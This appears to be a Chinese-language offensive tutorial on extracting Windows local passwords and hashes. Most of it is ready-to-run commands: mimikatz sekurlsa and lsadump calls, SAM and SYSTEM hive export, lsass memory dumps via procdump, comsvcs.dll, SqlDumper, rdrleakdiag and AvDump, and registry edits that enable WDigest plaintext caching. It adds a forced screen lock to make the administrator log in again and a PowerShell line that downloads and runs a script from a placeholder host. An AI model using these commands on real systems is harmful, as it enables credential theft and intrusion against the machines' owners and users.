






0×00 前言
市面上可见到的读Windows本地密码的大多工具都是变则法子的去读lsass.exe这个密码的内存或者SAM数据库，然后从里面提取hash。所以有杀软的情况下读密码这事根本就不是工具免不免杀的问题，而是杀软有没有监控保护lsass.exe或SAM的问题，所以读本地密码条件可以总结为：
能正常访访问lsass.exe内存或SAM数据库。
0x02 工具下载地址
https://github.com/gentilkiwi/mimikatz/releases
0x3 实验
一、获取本地帐户密码
1.本地执行
右键以管理员方式运行cmd在当前终端中运行mimikatz.exe：
#提升权限
privilege::debug
#抓取密码
sekurlsa::logonpasswords

当目标为 win10 或 2012R2 以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。
cmd 修改注册表命令：
#重启或用户重新登录后可以成功抓取
reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
2.SAM 表获取 hash
#导出SAM数据
reg save hklm\sam sam.hive
reg save hklm\system system.hive
#使用mimikatz提取hash
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit

3.laZagne
laZagne_x64.exe windows
二、lsass内存dump
通过以下操作可先获取到lsass内存文件，然后使用mimikatz可进一步读取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
1.procdump64
当 mimikatz 无法在主机上运行时，可以使用微软官方发布的工具 Procdump 导出 lsass.exe:
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

2.createminidump
createminidump.exe

3.SqlDumper
for /f "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100
4.powershell
for /f "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump %i C:\lsass.dmp full"
5.rdrleakdiag
rdrleakdiag.exe转储的新方法
默认存在的系统：
Windows 10 Windows 8.1 Windows 8 Windows7 windows Vista 软件版本 10.0.15063.0 6.3.9600.17415 6.2.9200.16384 6.1.7600.16385 6.0.6001.18000 另外有师傅测试2008没有该exe文件，2016存在。没有的情况可以选择传一个上去。
使用方法
for /f "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do rdrleakdiag.exe /p %i /o c:\users\ /fullmemdmp /wait 1
会产生两个文件，results_+进程pid+.hlk，minidump_+进程pid+.dmp。

6.wce
wce.exe -w 读取系统明文密码
wme.exe -l 获取hash
7.PwDump7
PwDump7.exe

8.SharpDump
地址：https://github.com/GhostPack/SharpDump
SharpDump.exe
9.AvDump工具
Avdump.exe 是Avast Home Security 产品套件一起提供的小工具。顾名思义，该实用程序将给定进程标识符的内存转储到用户指定的位置。我们可以通过它进行新的 dump 方式利用。
从https://www.pconlife.com/viewfileinfo/avdump-exe/ 下载该程序。需要在powershell环境下运行该程序，测试cmd环境下无法导出：
tasklist | findstr /i lsass.exe
.\AvDump.exe --pid 684 --exception_ptr 0 --dump_level 1 --thread_id 0 --min_interval 0 --dump_file c:\lsass.dmp

解密
将 lsass.dmp 下载到本地后，然后执行 mimikatz:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
为了方便复制与查看，可以输出到本地文件里面：
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt
KB2871997补丁
在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。 但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）
原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码
在默认情况下，当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，密码字段显示为null，此时可以通过以下方式开启，但需要用户重新登录后才能成功抓取。
开启Wdigest Auth
-
cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f -
powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1 -
meterpreter
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
关闭Wdigest Auth
关闭命令如下：
-
cmd
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f -
powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0 -
meterpreter
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0
强制锁屏
在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。
强制锁屏，让管理员重新登录。
-
cmd
rundll32 user32.dll,LockWorkStation -
powershell
Function Lock-WorkStation { $signature = @" [DllImport("user32.dll", SetLastError = true)] public static extern bool LockWorkStation(); "@ $LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru $LockWorkStation::LockWorkStation() | Out-Null } Lock-WorkStation
powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
重新读取，可读到明文密码。
参考地址：
https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html
https://www.jianshu.com/p/7ccf6e15fbe0
https://blog.thekingofduck.com/post/Dumping-Windows-Local-Credentials-Tools/